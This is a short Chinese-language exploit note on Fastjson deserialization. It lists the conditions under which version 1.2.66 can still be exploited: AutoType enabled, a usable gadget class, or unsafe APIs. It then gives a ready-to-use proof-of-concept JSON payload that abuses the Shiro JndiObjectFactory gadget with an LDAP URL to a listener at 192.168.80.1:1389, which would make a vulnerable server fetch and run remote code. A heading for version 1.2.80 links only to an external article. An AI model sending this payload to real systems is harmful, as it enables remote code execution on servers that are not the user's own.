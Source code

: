 ## Fastjson 1.2.66

Fastjson 1.2.66 在**默认配置下相对安全**，但如果存在以下情况，反序列化利用仍可能成功：

- 手动开启了 `AutoType`
- 存在可利用的 gadget 类
- 使用了不安全的 API

POC

```json
{  "@type":"org.apache.shiro.jndi.JndiObjectFactory",  "resourceName":"ldap://192.168.80.1:1389/Calc"  }
```

## Fastjson 1.2.80

参考文章：https://mp.weixin.qq.com/s/NNSqR3cDV1F3KnjUOw5Odw
